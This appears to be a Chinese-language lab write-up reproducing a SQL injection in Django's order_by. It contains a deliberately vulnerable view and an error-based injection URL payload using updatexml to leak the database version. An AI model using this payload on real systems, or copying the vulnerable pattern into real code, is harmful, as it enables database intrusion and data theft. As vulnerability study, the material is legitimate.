   

- app/views.py

  ```python
  from .models import Collection
  
  def vul(request):
      query = request.GET.get('order', default='id')
      q = Collection.objects.order_by(query)
      return HttpResponse(q.values())
  ```

  

- 生成数据库

  ```
  python3 manage.py makemigrations && python3 manage.py migrate
  ```

- 给数据库添加数据



### 漏洞复现

访问

```
http://172.16.42.151:8000/app/vuln/?order=id
```

返回结果

```
{'id': 1, 'name': 'a'}{'id': 2, 'name': 'b'}
```

访问

```
http://172.16.42.151:8000/app/vuln/?order=-id
```

返回逆序

```
{'id': 2, 'name': 'b'}{'id': 1, 'name': 'a'}
```

注入(**这是通过django的debug功能报错注入**)

```
http://172.16.42.151:8000/app/vuln/?order=-id
```



```
http://172.16.42.151:8000/app/vuln/?order=.id);select%20updatexml(1,concat(0x7e,(select%20@@version)),1)%23
```

